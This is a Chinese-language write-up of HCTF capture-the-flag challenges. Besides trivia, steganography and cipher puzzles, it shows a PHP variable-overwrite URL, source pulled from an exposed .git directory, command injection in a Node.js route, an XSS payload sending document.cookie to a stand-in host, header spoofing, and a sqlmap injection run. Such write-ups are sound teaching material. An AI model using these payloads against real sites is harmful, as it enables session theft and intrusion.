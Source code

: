 # HCTF writeup(web)

**丘比龙的最爱 10pt**

传说，丘比龙是丘比特的弟弟，丘比龙是一只小爱神，虽然有两只翅膀，但因为吃多了，导致身体太胖，所以飞不起来~那么问题来了?!丘比龙吃什么食物吃多了变胖了

很明显了,百度一下答案是甜甜圈

**nvshen 100pt**

猫流大大发现一个女神，你能告诉我女神的名字么（名字即是flag） 下载zip后是一个疑似base64的密文,用base64解密后发现png图片头 后缀改为png

![enter image description here](http://drops.javaweb.org/uploads/images/996ef5b630f253aec71ffdc4608a317c58a5529b.jpg)

图片放到百度识图 得到名字

```
flag:爱新觉罗启星

```

**GIFT 100pt**

打开网站 在注释处发现一个文件 index.php.bak 内容为

```
<?php
$flag=‘xxx';
extract($_GET);
if(isset($gift))
{
$content=trim(file_get_contents($flag));
if($gift==$content)
{
echo’hctf{...}';
}
else
{
echo’Oh..';
}
}
?>

```

构造如下URL:

```
http://121.40.86.166:39099/index.php?gift=&flag=

```

覆盖掉flag变量

```
flag: hctf{Awe3ome_Ex7ract!!!}

```

**Entry 200pt**

57R9S980RNOS49973S757PQO9S80Q36P 听说丘比龙一口气能吃”13”个甜甜圈呢!

刚开始各种进制转换,后来注意道13这个数字,刚好密文处是13个字母,于是把字母转成 ASCII然后加13后转字符,然后插到原来的位置,最后cmd5解密

```
flag: Qoobee

```

**FIND 200pt**

把图片下载下来用Stegsolve神器在随机图层发现二维码,把二维码修复一下 白色的改成黑色的 黑色的改成白色的 然后扫一下就出来flag了

![enter image description here](http://drops.javaweb.org/uploads/images/b20008428ee3768e083482fc3c016888f08e6b09.jpg)

**flag{hctf_3xF$235#\x5e3}**

**IRC 300pt**

进入官方IRC频道,挨个找人whois

命令 /whois xxx(昵称) 其中有几个人反弹了flag 提交几个后终于正确了

![enter image description here](http://drops.javaweb.org/uploads/images/95a27ed3c0018878863396c5b287f8424daf543d.jpg)

**opensource 300pt**

开源？闭源？

在robots.txt文件下发现 .git隐藏目录 根据git说明 得到分支文件

```
refs/heads/master

```

下载后得到 hash值 e52b59bc730f13d999b1f2452ca3f689850ca0a3

然后进入e5/目录访问2b59bc730f13d999b1f2452ca3f689850ca0a3 文件 hash前二位目录 后32位文件名 详情可以去百度看一下 git的目录结构 依此类推 配合 (git cat-file -p 接40位hash )命令 读取项目文件 是当前网站的源代码 node.js

部分代码:

```
// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'jade');

app.use(favicon());
app.use(logger('dev'));
app.use(bodyParser.json());
app.use(bodyParser.urlencoded());
app.use(cookieParser());

app.use('/', routes);
app.use('/ac6555bfe23f5fe7e98fdcc0cd5f2451', pangci);
—————————————————————————————-

var express = require('express');
var router = express.Router();
var fs = require('fs');
var path = require('path');
var cp = require('child_process');

router.get('/', function(req, res) {
  var data = path.normalize('/tmp/flag');

  if (req.param('pangci')) {
    cp.exec(secure(req.param('pangci')) + ' ' + data, function (err, stdout, stderr) {
      if (err) { res.end('Ohhhhh MY SWEET!!!YOOOOOO HURT ME!!') }
      var limit = stdout.split('\n').slice(0, 5).join('\n');
      res.end(limit);
    });
  } else {
    res.end('HEY MY SWEET!!! I LOVE YOOOOOOOO!!!');
  }

});

function secure (str) {
  return str.replace(/[^\d\-a-zA-Z ]/g, '');
}

```

访问

```
/ac6555bfe23f5fe7e98fdcc0cd5f2451?pangci=wc 

```

返回

```
142   735 11507 /tmp/flag

```

表示有142行

利用tail -n num 命令 一次读取5行

最后进行拼接得到 flag

![enter image description here](http://drops.javaweb.org/uploads/images/a093ff0ac317a63e1ddde2bde0344f8505122ac2.jpg)

**FUCKME 350pt**

打开网页各种语种,想到用词频分析进行解密,利用软件统计频率前26个字 用记事本或者脚本替换成26个英文字母 然后用下面这个网站进行解密

http://www.quipqiup.com/index.php

```
flag:hctf{enjoyyourselfinhctf}

```

**jianshu 400pt**

这题有点坑,首先比较轻松的xss到了cookie,

```
<svg><scscriptript>window.locatioonn=“http://xxx.com/cookie.php?cookie=“%26%2343%3Bescape(document.cookie);</scscriptript></svg>

```

然后cookie里确实有flag flag=NOT IN COOKIE尝试提交这个不对 然后在cookie.php进行修改 获取客户端的http头信息

```
Referer: http://121.41.37.11:25045/get.php?user=V1ew
X-Forwarded-For: 218.75.123.186

```

伪造http头访问改url 还是没有发现cookie 然后据说不是xss 是sql注入 然后各种参数,各种注

然后最后的注入的点为;

```
http://121.41.37.11:25045/img.php?file=1*.jpg

```

之前尝试了整个file参数发现注不了,其实是要注.jpg前面的值

```
sqlmap —level 6 —dbs

```

跑出数据库

![enter image description here](http://drops.javaweb.org/uploads/images/7337dd2a10d0de8da8a0f7fa87a93cf46086fc49.jpg)

访问

```
http://121.41.37.11:25045/get.php?user=A1rB4s1C

```

提示IP不对 用之前X到的IP进行伪造 最后返回flag

```
flag: hctf{Why_are_U_S0_DIA0?????}

```

![enter image description here](http://drops.javaweb.org/uploads/images/76402b4cc58e5378475c98d7b6a917c33fc20661.jpg)